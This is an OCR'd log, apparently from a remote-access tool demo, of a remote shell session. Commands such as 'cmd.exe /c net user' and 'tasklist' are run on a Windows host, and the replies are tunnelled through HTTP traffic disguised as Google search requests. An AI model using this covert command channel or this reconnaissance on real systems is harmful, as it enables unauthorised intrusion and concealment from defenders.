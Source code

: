 ```plain
Content-Length: 00000023
Connection: keep-alive


win-JMKXXXXXOT\admin

33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c net user
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00000210
Connection: keep-alive



\\WIN-JMKXXXXXOT 的用户帐户

-------------------------------------------------------------------------------
admin                    Administrator            Guest
命令成功完成。


33指令-请输入需执行的命令：quit-返回上层指令
>cmd.exe /c tasklist
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00003434
Connection: keep-alive



映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0         24 K
System                           4 Services                   0      4,308 K
smss.exe                       284 Services                   0        976 K
csrss.exe                      372 Services                   0      5,720 K
wininit.exe                    404 Services                   0      4,464 K
csrss.exe                      424 Console                    1     43,008 K
services.exe                   468 Services                   0      8,528 K
winlogon.exe                   500 Console                    1      6,132 K
lsass.exe                      512 Services                   0     10,048 K
lsm.exe                        528 Services                   0      3,864 K
svchost.exe                    636 Services                   0      8,696 K
svchost.exe                    712 Services                   0      8,556 K
svchost.exe                    796 Services                   0     22,480 K
svchost.exe                    848 Services                   0     12,256 K
svchost.exe                    888 Services                   0     35,232 K
svchost.exe                    128 Services                   0     13,460 K
svchost.exe                    584 Services                   0     72,576 K
spoolsv.exe                   1108 Services                   0      8,548 K
```
